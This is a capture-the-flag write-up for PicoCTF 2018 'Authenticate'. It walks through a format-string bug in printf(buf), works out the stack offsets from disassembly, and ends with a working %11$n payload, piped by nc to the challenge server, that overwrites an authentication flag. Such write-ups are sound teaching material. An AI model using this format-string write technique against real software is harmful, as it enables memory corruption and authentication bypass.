 ```yaml
---
title:  PicoCTF 2018 - Authenticate
description: Did you think printf was just for printing values? Naw, it can do more than that.
hide_index: true
image:
  path: /img/reference/pico-ctf-2018-00000.png
  width: 1024
  height: 512
  thumb: /img/reference/pico-ctf-2018-00000.thumb.png
  alt: Linux Terminal
---
```


# PicoCTF 2018 - Authenticate

> **Note**: This article is part of our [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}).

## Spot the Bug

I'll give you a hint, you *should* be able to spot the bug based on the [last challenge]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits/echooo.md %}).

```c
int authenticated = 0;

void read_flag()
{
  if (!authenticated) {
    printf("Sorry, you are not *authenticated*!\n");
  } else {
    printf("Access Granted.\n");
    flag();
  }
}

int main(int argc, char **argv)
{
  // ...
  char buf[64];
  // ...
  fgets(buf, sizeof(buf), stdin);
  if (strstr(buf, "no") != NULL) {
    printf("Okay, Exiting...\n");
    exit(1);
  }
  else if (strstr(buf, "yes") == NULL) {
    puts("Received Unknown Input:\n");
    printf(buf);
  }
  read_flag();
```

Let's break it down:

1. There is a global variable `authenticated`, initialized to false, but must be set to true in order to get the flag
2. `buf` is allocated on the stack (but is used safely buy the function `fgets`)
3. If the response contains "no", the program immediately exits
4. If the response contains "yes", the program calls `read_flag()` (which validates the `authenticated` variable)
5. If the response contains neither "no" nor "yes", the program calls `printf(buf)` to echo the response back to the user. For some reason, it still calls `read_flag()`.

Soo... Where's the bug?

If you said `printf(buf)`, then you're exactly right! Good job.

## Strategy

Our strategy has to be a little different this time around. When `printf` is called, the flag isn't even loaded into memory yet!

But, we do know that `buf` is on the stack, so we can probably reference stuff in that.

And we also know that `read_flag()` will still get called, so we just need some way to change the value of `authenticated`.

We even know exactly where `authenticated` is in memory because we can verify that **PIE is not enabled** for this binary. (*Do you remember how to check*?)

**The strategy is to find some way for a format string vulnerability to write to known location in memory**.

## Background Info

It's silly really. How could a function designed for *printing stuff to the screen* allow you to write to memory?

Maybe you're a c programming language veteran and have an idea... If so, connect to the challenge uisng `nc 2018shell.picoctf.com 52398` and give it a go, otherwise, listen up.

If you browse the documentation for format strings, you come across this curious type field for "`%n`":

| Character | Description |
| --- | --- |
| n | Print nothing, but write the number of characters successfully written so far into an integer pointer parameter. |

Which is very interesting. It says that instead of printing something to the screen when it sees a "`%n`" token, it'll actually treat the corresponding argument as an `int*` and **WRITE A NUMBER THERE**. Essentially, if you make your output long enough, you can write any `int` value to any location in memory (assuming you can control the `int*` argument).

Ok, first things first, where is `authenticated` in memory?

```
$ objdump -t ./auth | grep authenticated
0804a04c g     O .bss   00000004              authenticated
```
{:.contains-term}

What about the content of `buf`? It's on the stack, but where is it relative to the pointer to the format string passed as an argument to `printf`?

```nasm
mov    ebp,esp
push   ecx ; esp -= 4
sub    esp,0x64 ; esp -= 0x64
; ...
; printf(buf)
sub    esp,0xc
lea    eax,[ebp-0x4c] ; &buf
push   eax
call   80484b0 <printf@plt>
```

So, we know there are `0x68` bytes reserved on the stack. We know that `buf[64]` starts at `ebp-0x4c`. We know that we push the format string argument (a `4` byte ptr) followed by `12` bytes of padding, followed by rest of the baseline stack reserved by the function.

| Start | End | Content |
| --- | --- | --- |
| `esp` | `esp+3` | `&buf` [4 bytes] (*format string*) |
| `esp+4` | `esp+15`| alignment padding [12 bytes]
| `esp+16` = baseline = `ebp-0x68`| `esp+31` = `ebp-0x4d` | other [28 bytes]|
| `ebp-0x4c` | `ebp-0x0d`| `buf[64]` |

Therefore, there are `12+28 = 40` bytes of stuff between the format-string argument and the start of `buf[]`.

First, let's check our math, what should happen if we enter a format string of "`ABCD %11$#lX`"?

If you recall from [echooo]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits/echooo.md %}), this format string is a POSIX extension that says treat all of the arguments as if they were "`%#lX`" ie, a long sized integer, and then print *ONLY* the 11th one as a hexadecimal value (prepended with "0x"). The gcc compiler on x86 linux platforms treats `long` integers as 32 bit. The ascii values for `A`,`B`,`C`, and `D` are `0x41`, `0x42`, `0x43` and `0x44` respectively. A 32-bit little-endian integer would store its value with the least significant byte first, and its most significant byte last. The string "ABCD" would therefore be equivalent to the in-memory representation of the 32-bit integer `0x44434241`, which is what we expect that format-string to print out. **Let's verify!**

```
$ ./auth
Would you like to read the flag? (yes/no)
ABCD %11$#lX
Received Unknown Input:

ABCD 0x44434241
Sorry, you are not *authenticated*!
```
{:.contains-term}

Excellent, memory is layed out *exactly* as we expect it to be!

You should now have all the pieces you need to craft your exploit. Try it now by connecting with  `nc 2018shell.picoctf.com 52398`.

## Exploitation

We know `authenticated` is at the address `0x0804a04c`, we know we can use "`%n`" to write to an address, and we know that the first byte of `buf[]` starts `40` bytes after the format-string argument (where `40` bytes is equivalent to `10` pointers).

Let's write a non-zero value into `authenticated` by putting the address `0x0804a04c` (written in little-endian form) into the first 4 bytes of `buf`, and then use the format string "`%11$n`" which will index into the stack the equivalent of 10 `int*` pointers (`40` bytes), grab the 11th one, and then set the value of memory pointed to by that pointer to be equal to the number of bytes printed so far (in this case 4). Since `authenticated=4` is "truthy", `read_flag()` will call `flag()`, which will then open the flag file and print its contents.

```
$ python -c 'print("\x4c\xa0\x04\x08%11$n")' | nc 2018shell.picoctf.com 52398
Would you like to read the flag? (yes/no)
Received Unknown Input:

L�
Access Granted.
picoCTF{===REDACTED===}
```
{:.contains-term}

Good job! Head back to the [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}) to continue with the next challenge.